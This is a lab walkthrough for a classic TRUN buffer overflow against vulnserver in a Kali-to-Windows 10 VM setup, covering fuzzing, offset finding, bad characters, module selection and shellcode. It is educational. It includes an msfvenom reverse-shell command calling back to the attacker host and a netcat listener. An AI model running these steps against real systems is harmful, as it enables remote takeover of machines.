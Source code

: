 # Buffer-Overflows-Made-Easy

## Table of Contents
1. [Lab Overview & Objectives](#lab-overview--objectives)  
2. [Environment & Prerequisites](#environment--prerequisites)  
3. [Step-by-Step Procedure](#step-by-step-procedure)  
   - [Step 0 — Network & VM Prep](#step-0---network--vm-prep)  
   - [Step 1 — Start vulnserver on Win10](#step-1---start-vulnserver-on-win10)  
   - [Step 2 — TRUN Overflow (Parts 1 & 2)](#step-2---trun-overflow-parts-1--2)  
   - [Step 3 — Fuzzing (Part 3)](#step-3---fuzzing-part-3)  
   - [Step 4 — Finding the Offset (Part 4)](#step-4---finding-the-offset-part-4)  
   - [Step 5 — Overwriting EIP (Part 5)](#step-5---overwriting-eip-part-5)  
   - [Step 6 — Finding Bad Characters (Part 6)](#step-6---finding-bad-characters-part-6)  
   - [Step 7 — Finding the Right Module (Part 7)](#step-7---finding-the-right-module-part-7)  
   - [Step 8 — Generating Shellcode & Gaining Shell (Part 8)](#step-8---generating-shellcode--gaining-shell-part-8)  

---

# Lab Overview & Objectives
This lab follows **The Cyber Mentor** series (Parts 1–8) to exploit `vulnserver` on a Windows 10 VM from a Kali attacker VM.

**Objectives**
- Trigger a TRUN buffer overflow and observe EIP/EBP overwrite.  
- Fuzz the service to find the crash location.  
- Determine the EIP offset and confirm control.  
- Identify bad characters.  
- Find a usable module/gadget.  
- Generate shellcode and obtain a reverse shell.

---

# Environment & Prerequisites
**VMs**
- Attacker: `Kali` VM (ensure VM name is visible in screenshots)  
- Target: `Win10` VM (password: `Passw0rd!`, ensure VM name is visible)

**Tools**
- VMware Workstation (or equivalent)  
- `vulnserver` (place on Win10)  
- Immunity Debugger + `mona.py` plugin (on Win10)  
- `msfvenom` / Metasploit (optional)  
- `nc` (netcat) on Kali  
- Python 2 on Kali (or run `python2` explicitly)

**Network**
- Both VMs must be on the same network (NAT/Host-only/Bridged).  
- Use your own IP addresses — do **not** reuse IPs from tutorial videos.

---

# Step-by-Step Procedure

## Step 0 — Network & VM Prep
- Start both VMs and ensure they share the same network.  
- Record IPs:
  - Kali IP: `TODO_kali_ip`  
  - Win10 IP: `TODO_win10_ip`  
- Take a VM snapshot.

## Step 1 — Start vulnserver on Win10
- Run `vulnserver.exe` as Administrator on the Win10 VM.  
- Confirm service is listening (commonly port `9999` in examples).  
- Screenshot: vulnserver running with Win10 VM name visible.

## Step 2 — TRUN Overflow (Parts 1 & 2)
- From Kali, send a long string of `A`s to `TRUN` (e.g., `"A"*4000`).  
- Observe in Immunity that EBP and EIP are overwritten with `0x41414141`.  
- Save script: `exploit_trun_step2.py`  
- Screenshot filename: `artifact01_trun_41414141.png`

## Step 3 — Fuzzing (Part 3)
- Run a fuzzing script that increases payload size until a crash occurs.  
- Save fuzz log (e.g., `fuzz_log.txt`) and screenshot Kali showing crash length.  
- Screenshot filenames: `artifact02_fuzz_kali.png`, `artifact02_fuzz_win10.png`

## Step 4 — Finding the Offset (Part 4)
- Generate a cyclic pattern larger than crash size, send it, and note value in EIP.  
- Use pattern tools (mona / pattern_offset) to compute offset.  
- Screenshot: `artifact03_offset_eip_value.png`  
- Record: `TODO_offset`

## Step 5 — Overwriting EIP (Part 5)
- Build payload: `<padding = offset>` + `BBBB` (`0x42424242`) + `<filler>` and send.  
- Verify EIP == `0x42424242`.  
- Screenshot: `artifact04_eip_42424242.png`

## Step 6 — Finding Bad Characters (Part 6)
- Append badchars sequence (all bytes except `\x00`) after return address.  
- In Immunity hex dump, compare the in-memory sequence to expected.  
- Identify any bytes that are altered (bad characters).  
- Screenshot: `artifact05_badchars_hexdump.png`  
- Record: `TODO_badchars`

## Step 7 — Finding the Right Module (Part 7)
- Use `mona` to find modules without ASLR/DEP and search for `jmp esp`/useful gadgets.  
- Choose module and address; set breakpoint (e.g., `essfunc`) and test.  
- Screenshot: `artifact06_essfunc_breakpoint.png`  
- Record: `TODO_module_name @ TODO_address`

## Step 8 — Generating Shellcode & Gaining Shell (Part 8)
- Generate shellcode excluding bad chars, example:
  msfvenom -p windows/shell_reverse_tcp LHOST=TODO_kali_ip LPORT=4444 -f c -b "\x00\x0a\x0d"
- Final payload: `<padding>` + `<JMP/RET address>` + `<NOP sled>` + `<shellcode>`  
- On Kali: `nc -lvnp 4444`  
- Trigger exploit and run `whoami`.  
- Screenshot: `artifact07_nc_whoami.png`  
- Record: `TODO_whoami_output`

# Reproduction Summary
1. Start Win10 & Kali VMs (same network).  
2. Run vulnserver as Admin on Win10.  
3. Fuzz `TRUN` to find crash.  
4. Use cyclic pattern to find offset where EIP is overwritten.  
5. Overwrite EIP with `0x42424242` to confirm control.  
6. Identify bad chars and choose module/gadget.  
7. Generate shellcode excluding bad chars.  
8. Start `nc -lvnp 4444` on Kali and trigger final exploit to get shell.

---

# Troubleshooting & Tips
- If Python 3 errors occur: try changing the first line of the script from “#!/usr/bin/python” to “#!/usr/bin/python2” or you can invoke your script using “python2” at the command line.
- If Immunity behaves oddly: reboot VM or reinstall.  
- If traffic blocked: disable AV/firewall temporarily.  
- Use snapshots after each successful step.
